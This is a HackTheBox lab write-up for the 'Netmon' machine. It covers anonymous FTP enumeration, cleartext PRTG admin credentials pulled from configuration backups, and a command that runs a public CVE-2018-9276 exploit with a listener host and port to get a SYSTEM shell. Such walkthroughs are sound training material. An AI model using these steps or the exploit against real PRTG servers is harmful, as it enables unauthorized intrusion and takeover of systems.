 ```yaml
---
title: HTB | Netmon
author: Zeropio
date: 2022-12-24
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/netmon
image:
  path: /assets/img/hackthebox/card/Netmon.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show us:

```
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### FTP

The **anonymous** user is enable, with this command all the ftp can be downloaded:

```bash
wget -m --no-passive ftp://anonymous@10.10.10.152
```

But the `C:\Users\Administrator`{: .filepath} folder is not accesible. Accesing the `config`{: .filepath} folder is also blocked:

```console
ftp> cd Windows
250 CWD command successful.
ftp> cd config
550 The system cannot find the file specified.
```

But we have access to the `C:\Users\Public`{: .filepath} or the `C:\inetpub`{: .filepath}. In the logs there is a reference to a **WebManagementShell**:

```
2019-02-26 02:18:24 10.10.10.152 POST /Service.axd Module=WebObjects&Method=GetSite 8172 netmon\administrator 10.10.14.2 WebManagementShell|7.0.0.0|4.0.30319.42000|System.Windows.Forms.Control - 200 0 0 276
```

All available users in the system can be seen:

```console
ftp> ls -a
229 Entering Extended Passive Mode (|||50599|)
150 Opening ASCII mode data connection.
02-25-19  10:44PM       <DIR>          Administrator
07-16-16  08:28AM       <DIR>          All Users
02-03-19  07:05AM       <DIR>          Default
07-16-16  08:28AM       <DIR>          Default User
07-16-16  08:16AM                  174 desktop.ini
02-02-19  11:35PM       <DIR>          Public
```

Inside `All Users`{: .filepath} there is a bunch of them, but one has a different name, **Paessler**. There we have the folder `PRTG Network Monitor`{: .filepath}.

```console
ftp> ls
229 Entering Extended Passive Mode (|||50695|)
125 Data connection already open; Transfer starting.
12-24-22  07:28AM       <DIR>          Configuration Auto-Backups
12-24-22  06:47AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
12-24-22  06:47AM       <DIR>          Logs (Web Server)
12-24-22  06:52AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
12-24-22  07:28AM              1680579 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
```

Download the config file:

```console
ftp> get "PRTG Configuration.dat"
```

There we can find the following:

```xml
								<login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
                  </cell>
                  <cell col="1" crypt="PRTG">
                    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
                  </cell>
                </password>

```

We search for this user in the three config files we have in the FTP:

```console
$ grep -C 10 prtgadmin 'PRTG Configuration.dat'
$ grep -C 10 prtgadmin 'PRTG Configuration.old'
$ grep -C 10 prtgadmin 'PRTG Configuration.old.bak'
```

Finally, we found cleartext credentials:

```xml
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

### HTTP

There is a page with a login prompt for access **PRTG Network Monitor**. The previous credentials will not work at first, but after changing the year to **2019** it will work. The finals credentials are `prtgadmin:PrTg@dmin2019`.

If we look into the source code we can get the version inside a script:

```jsx
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','//www.google-analytics.com/analytics.js','__ga');
__ga('create', 'UA-154425-18', {
'appId':'-10',
'appName':'PRTG Network Monitor (NETMON)',
'appVersion':'18.1.37.13946'
});
```

But once logged in, we can get the exact version: `18.1.37.13946`. Searching for exploits in this version:

```console
$ searchsploit PRTG
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                       | windows/webapps/46527.sh
```

The webpage on the port 47001 and 5985 show a error 404. Fuzzing will not show any other page.

---

# Footprint

## Privilege Escalation

We will use this [exploit](https://github.com/wildkindcc/CVE-2018-9276/pull/1/commits/9653c261aeb5a263cb79a2b805217516bef9baf0), from a commit in the same exploit in [Python2](https://github.com/wildkindcc/CVE-2018-9276):

```console
$ python3 CVE-2018-9276-py3.py -i 10.10.10.152 -p 80 --lhost 10.10.14.3 --lport 80 --password 'PrTg@dmin2019'

C:\Windows\system32>whoami
nt authority\system
```

